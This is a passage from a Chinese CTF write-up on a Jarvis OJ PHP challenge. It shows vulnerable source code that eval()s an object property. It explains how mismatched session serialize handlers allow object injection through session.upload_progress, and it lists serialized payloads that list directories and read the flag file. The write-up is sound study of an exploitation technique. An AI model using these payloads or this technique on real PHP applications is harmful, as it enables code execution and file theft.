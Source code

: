 获得flag





## 0x03

浙大的一道题，主要考察session反序列化，session.upload_progress.enabled的使用，这个我觉得算是一个小trick。

题目地址：[http://web.jarvisoj.com:32784/](http://web.jarvisoj.com:32784)

源码：

```php
<?php
//A webshell is wait for you
ini_set('session.serialize_handler', 'php');
session_start();
class OowoO
{
    public $mdzz;
    function __construct()
    {
        $this->mdzz = 'phpinfo();';
    }
    
    function __destruct()
    {
        eval($this->mdzz);
    }
}
if(isset($_GET['phpinfo']))
{
    $m = new OowoO();
}
else
{
    highlight_string(file_get_contents('index.php'));
}
?>
```

使用反序列化的话，一旦控制了`$mdzz`，我们们就可以通过`_destruct()`，进行文件读取。



在php.ini中设置的是session处理器是`php_serialize`，然后在这道题中设置的session处理器又是`php`，这里的处理器差异导致反序列化漏洞。

[HP Session 序列化及反序列化处理器设置使用不当带来的安全隐患](https://github.com/80vul/phpcodz/blob/master/research/pch-013.md)

[深入浅析PHP的session反序列化漏洞问题](https://www.jb51.net/article/116246.htm)

我们先构造payload

```php
<?php

class OowoO
{
    public $mdzz = "var_dump(file_get_contents('/opt/lampp/htdocs/Here_1s_7he_fl4g_buT_You_Cannot_see.php'));";
}

$m = new OowoO();
echo serialize($m);
//|O:5:\"OowoO\":1:{s:4:\"mdzz\";s:36:\"print_r(scandir(dirname(__FILE__)));\";}
//|O:5:\"OowoO\":1:{s:4:\"mdzz\";s:89:\"var_dump(file_get_contents('/opt/lampp/htdocs/Here_1s_7he_fl4g_buT_You_Cannot_see.php'));\";}
?>
```